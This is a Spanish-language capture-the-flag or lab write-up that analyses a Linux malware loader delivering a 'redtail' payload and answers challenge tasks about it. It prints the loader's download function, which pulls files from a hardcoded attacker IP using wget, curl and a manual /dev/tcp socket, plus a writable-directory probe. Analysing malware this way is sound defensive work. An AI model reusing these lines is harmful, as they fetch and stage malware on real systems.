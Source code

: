 Un resumen breve del script: 

1. Usa `wget`, `curl` y socket TCP manual para garantizar la obtención de ficheros.
2. Detecta un directorio donde tenga permisos completos y no esté montado con `noexec`.
3. **Ejecución en dos fases**:
   * Un “stager limpio” (`clean`).
   * Un payload principal (`.redtail`) adaptado a la arquitectura.
4. **Limpieza**: elimina los archivos descargados tras su uso.

Esto es característico un **loader de malware**, que prepara el entorno, elige y ejecuta un binario cifrado/firmado para la CPU, ocultando su actividad lo máximo posible.

En este script solo tenemos una función llamada `dlr`: 

```bash 
dlr() {
  wget http://94.156.177.109/$1 || curl -O http://94.156.177.109/$1
  if [ $? -ne 0 ]; then
    # Fallback: descarga vía socket TCP manual
    exec 3<>"/dev/tcp/94.156.177.109/80"
    echo -e "GET /$1 HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3
    (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 >$1
    exec 3>&-
  fi
}
```

Esta función descargar un archivo remoto cuyo nombre se pasa como parámetro $1 (por ejemplo, clean, x86_64, etc.).

Pasos:
    - Intenta con wget.
    - Si falla (||), prueba con curl -O.
    - Si ambos fallan ($? -ne 0), abre un socket TCP directo a 94.156.177.109 en el puerto 80 y emula una petición HTTP GET “a mano”.

------

<h3 style="color: #9FEF00;"> Task 5. Which port does the attacker's server use? </h3>

Por lo que vemos en la pregunta anterior, se abre la conexión por el puerto 80.

-------

<h3 style="color: #9FEF00;"> Task 6. The script checks which directories it can write to by attempting to create test files. What is the size of the second test file? (Size in MB) </h3>

La parte del script que nos interesa es la siguiente: 

```bash 
OK=true
for i in $FOLDERS /tmp /var/tmp /dev/shm; do
  if cd "$i" && touch .testfile \
      && (dd if=/dev/zero of=.testfile2 bs=2M count=1 >/dev/null 2>&1 \
          || truncate -s 2M .testfile2 >/dev/null 2>&1); then
    # Si puede crear y escribir 2 MiB, entonces es apto
    rm -rf .testfile .testfile2
    break
  fi
done
```
